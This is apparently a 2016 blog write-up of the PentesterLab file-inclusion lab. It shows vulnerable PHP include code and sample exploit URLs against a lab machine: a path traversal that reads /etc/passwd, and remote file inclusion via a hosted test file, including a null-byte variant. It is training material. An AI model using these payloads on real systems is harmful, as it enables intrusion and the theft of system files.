 ```yaml
---
layout: post
title: "Pentestlab-Web for Pentester - File Include"
date: 2016-03-16 18:00:22 -0400
comments: true
categories: [pentesterlab, File Include, web pentest]
---
```

Web for Pentester: This exercise is a set of the most common web vulnerability

Difficluty: 1/5
<!--more-->

OWASP:
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation. 


Tool: ZAP


### Example 1

code review:

```php example1.php
	if ($_GET["page"]) {
		include($_GET["page"]);

	} 

```
The developer uses `include` function in the code. However, there is no filter to protect file include attack. Use firebug to find the variable name is page, then do exploit:

`http://192.168.79.162/fileincl/example1.php?page=../../../../../../etc/passwd`

Also pentesterlab provide a online code `https://assets.pentesterlab.com/test_include.txt`

`http://192.168.79.162/fileincl/example1.php?page=https://assets.pentesterlab.com/test_include.txt`


### Example 2

code review:

```php example2.php
	if ($_GET["page"]) {
    $file = $_GET["page"].".php";
    // simulate null byte issue
    $file = preg_replace('/\x00.*/',"",$file);
		include($file);

	} 

```
There is a null issue. he null byte character effectively tells the filesystem to ignore anything that comes after it. When the path is resolved by the filesystem

so I can do:

`http://192.168.79.162/fileincl/example2.php?page=https://assets.pentesterlab.com/test_include.txt%00`
